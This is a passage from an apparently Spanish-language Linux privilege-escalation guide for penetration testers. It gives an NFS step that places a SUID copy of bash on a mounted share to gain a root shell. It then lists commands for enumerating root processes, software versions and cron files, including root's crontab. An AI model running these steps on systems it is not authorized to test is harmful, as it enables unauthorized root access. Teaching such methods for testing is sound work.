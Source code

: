 4. mount directory: mount -t nfs IP:/shared /tmp/foo
5. cd /tmp/foo
6. copy wanted shell: cp /bin/bash
7. set suid permission: chmod +s bash

### Tercera fase: Enumeracion de servicios y Cron

En esta fase se obtendra información sobre los servicios que se estan ejecutando, con que tipo de permisos y también se revisaran las tareas Cron que haya en el terminal.

#### ¿Qué servicios se estan ejecutando y que caracteristicas tienen?

##### Objetivos

Determinar que servicios se estan ejecutando, comprobar sus permisos y ver si hay algún servicion que pueda suponer un vector de ataque. Por ejemplo, si un servicio esta corriendo como root, explotarlo puede acabar siendo una ejecucion de codigo como root

##### Instrucciones

- ps aux | grep ^root: Listar los procesos del usuario root
- ps -eo 'tty,pid,comm', ps -ef : Listar procesos
- program --version: Obtener la versión del programa
- dpkg -l | grep program: Listar aplicaciones instaladas
- rpm -qa | grep program: Listar aplicaciones instaladas

- /proc/number: Información de un proceso ID 

#### ¿Qué información puedo obtener de Cron?

#### Objetivo

Obtener todo la información posible sobre el servicio Cron.

##### Instrucciones

- crontab -l
- ls -alh /var/spool/cron
- ls -al /etc/ | grep cron
- ls -al /etc/cron
- cat /etc/cron*
- cat /etc/at.allow
- cat /etc/at.deny
- cat /etc/cron.allow
- cat /etc/cron.deny
- cat /etc/crontab
- cat /etc/anacrontab
- cat /var/spool/cron/crontabs/root

#### Bala de plata III: Atacando a los servicios

##### Servicios vulnerables

Analizar los demonios activos, y ver si existe alguna vulnerabilidad.
